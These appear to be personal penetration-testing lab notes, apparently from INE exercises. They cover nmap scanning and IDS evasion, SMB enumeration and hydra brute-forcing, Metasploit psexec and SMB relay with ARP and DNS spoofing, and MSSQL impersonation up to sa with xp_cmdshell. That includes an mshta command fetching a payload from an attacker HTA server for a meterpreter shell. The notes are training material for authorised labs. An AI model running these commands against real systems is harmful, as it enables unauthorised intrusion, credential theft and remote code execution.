# Network attacks

## Information gathering

### Host Discovery

* ARP scan

```shellscript
nmap -PR 192.168.1.0/24
sudo arp-scan 192.168.1.0/24
```

* ping swiping

```shellscript
nmap -sn 192.168.1.0/24
fping -a -g 192.168.1.0/24 2>/dev/null
```

* TCP syn ping

```shellscript
sudo nmap -PS80 192.168.1.0/24
```

### Port Scanning


```shellscript
nmap -Pn -sS -p- -sV -O 192.168.1.105
```


### Firewall/IDS Evasion

Fragmentation (MTU = <mark style="color:$danger;">`Maximum Transmission Unit`</mark>)


```shellscript
nmap -Pn -sS -sV -p25 -f --mtu 8 192.168.1.107
```


Spoofing IP


```shellscript
nmap -Pn -sS -sV -p25 -f --data-length 200 -D  192.168.1.102,192.168.1.103 192.168.1.1
```


***

## **Exploitation**

### **Attack NetBIOS**

**Step 1 :**  run nmap on port 445 to get more information about the protocol.


```shellscript
nmap -sV -p 139,445 demo.ine.local
```


**Step 2:**  identify all the supported SMB versions on the target machine.


```shellscript
nmap -p445 --script smb-protocols demo.ine.local
```


<figure><figcaption></figcaption></figure>

**Step 3 :** run the nmap script to find the smb protocol security level.


```shellscript
nmap -p445 --script smb-security-mode demo.ine.local
```


<figure><figcaption></figcaption></figure>

**Step 4 :** run the smbclient tool to find that we have <mark style="color:$danger;">`anonymous access`</mark> on the target machine.


```shellscript
smbclient -L demo.ine.local
```


<figure><figcaption></figcaption></figure>

**Step 5 :** dump all the present windows users using the nmap script.


```shellscript
nmap -p445 --script smb-enum-users.nse demo.ine.local
```


<figure><figcaption></figcaption></figure>


you can use rpcclient



```shellscript
rpcclient -U "" -N demo.ine.local
enumdomusers
```


<figure><figcaption></figcaption></figure>

Step 6 : run the hydra tool for brute-forcing the SMB protocol to find the valid password of the provided users.


```shellscript
hydra -L users.txt -P rockyou.txt demo.ine.local smb
```


<figure><figcaption></figcaption></figure>

**Step 7:** Now, we can use the Metasploit framework and run the psexec exploit module to gain the meterpreter shell&#x20;


```shellscript
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser administrator
set SMBPass password1
exploit
```


<figure><figcaption></figcaption></figure>

### **SNMP Analysis**

**Step 1:** check if the SNMP port is open or not


```shellscript
nmap -sU -p 161 demo.ine.local
```


<figure><figcaption></figcaption></figure>

**Step 2:** Now, we need to find the SNMP server community string to access the target machine service.

<mark style="color:$danger;">`/usr/share/nmap/nselib/data/snmpcommunities.ls`</mark>


```shellscript
nmap -sU -p 161 --script=snmp-brute demo.ine.local
```


<figure><figcaption></figcaption></figure>

**Step 3:** Now, let's run the snmpwalk tool to find all the information via SNMP.


```shellscript
snmpwalk -v 1 -c public demo.ine.local  | grep -iE 'user|account|login'
```



**Step 4:** Let's run all the SNMP nmap scripts to gather all possible information via the SNMP service.


```shellscript
nmap -sU -p 161 --script snmp-* demo.ine.local > snmp_output
```


<figure><figcaption></figcaption></figure>

**Step 5:** Now, let's run a brute-force attack using these windows users on SMB service.


```shellscript
hydra -L users.txt -P rockyoutxt demo.ine.local smb
```


### DNS Spoofing & SMB Relay attack

1. **Step 1:** Start **msfconsole** and configure the SMB Relay exploit


```shellscript
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 192.168.1.105
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.105
set SMBHOST 192.168.1.107
exploit
```


<figure><figcaption></figcaption></figure>

2. **Step 2:** Configure **dnsspoof** in order to redirect the victim


```shellscript
echo "172.16.5.101 *.sportsfoo.com" > dns
```


<figure><figcaption></figcaption></figure>

3. **Step 3:** Activate the **MiTM** attack using the **ARP Spoofing** technique


```shellscript
echo 1 > /proc/sys/net/ipv4/ip_forward
```


<figure><figcaption></figcaption></figure>


```shellscript
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```


<figure><figcaption></figcaption></figure>

4. SMB Relay attack was successful, and we were able to obtain a meterpreter session

<figure><figcaption></figcaption></figure>

5. **Step 5 :** Interact with the meterpreter session. **Commands**


```shellscript
sessions
sessions -i 1
getuid
```


<figure><figcaption></figcaption></figure>

***

### Attacking SQL Databases <a href="#attacking-sql-databases" id="attacking-sql-databases"></a>

#### Impersonate Existing Users with MSSQL <a href="#impersonate-existing-users-with-mssql" id="impersonate-existing-users-with-mssql"></a>

#### Enumeration <a href="#enumeration" id="enumeration"></a>


```shellscript
nmap -Pn -sV -sC -p1433 demo.ine.local
```


<figure><figcaption></figcaption></figure>

**Step 1:** Use mssqlclient.py python script to connect to the target server


```shellscript
impacket-mssqlclient bob:KhyUuxwp7Mcxo7@demo.ine.local
```


<figure><figcaption></figcaption></figure>

**Step 2:** Check if the current user (bob) has the sysadmin role rights.


```sql
select loginname from syslogins where sysadmin = 1;
```


<figure><figcaption></figcaption></figure>

**Step 3 :** Try to enable xp\_cmdshell.


```sql
enable_xp_cmdshell
```


<figure><figcaption></figcaption></figure>


no permission


**Step 4:** Check if there is any user account that allows user impersonation.


```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```


<figure><figcaption></figcaption></figure>

**Step 5:** Try to impersonate the **sa** user directly from the **bob** account.


```sql
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
```


<figure><figcaption></figcaption></figure>

**Step 6:** Try to impersonate the **dbuser** user.


```sql
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'dbuser'
SELECT SYSTEM_USER
```


<figure><figcaption></figcaption></figure>

**Step 7:** From the **dbuser** try to impersonate the **sa** user


```sql
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
```


<figure><figcaption></figcaption></figure>


Awesome! Escalated to the **sa** user from the **dbuser**.


**Step 8:** Try to enable **xp\_cmdshell**.


```sql
enable_xp_cmdshell
```


<figure><figcaption></figcaption></figure>

**Step 9:** Execute command on the target server via **xp\_cmdshell**.


```sql
EXEC xp_cmdshell "whoami"
```


<figure><figcaption></figcaption></figure>

#### Read Local Files <a href="#read-local-files" id="read-local-files"></a>


```
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```


<figure><figcaption></figcaption></figure>

**Step 10:** Get the meterpreter session using a malicious hta server.

**HTA Web Server:**


```shellscript
msfconsole -q
use exploit/windows/misc/hta_server
exploit
```


<figure><figcaption></figcaption></figure>

**Step 11:** Run the malicious hta server link on the target server to gain the shell.


```sql
EXEC xp_cmdshell "mshta.exe http://10.10.15.2:8080/Ju9EybU.hta"
```


<figure><figcaption></figcaption></figure>

**Step 12:** get shell

<figure><figcaption></figcaption></figure>

***

> <mark style="color:$primary;">MSSQL Syntax</mark>


```sql
--databases
SELECT name FROM sys.databases;
SELECT DB_NAME();

--move_to_database
USE database_name;

--tables
SELECT TABLE_NAME
FROM INFORMATION_SCHEMA.TABLES;

--read tables
SELECT * FROM users;

--columns in tables
SELECT COLUMN_NAME
FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_NAME = 'users';

--currunt user
SELECT SYSTEM_USER;
SELECT SUSER_SNAME();

--privileges and roles
SELECT IS_SRVROLEMEMBER('sysadmin');

--server information
SELECT @@VERSION;
```

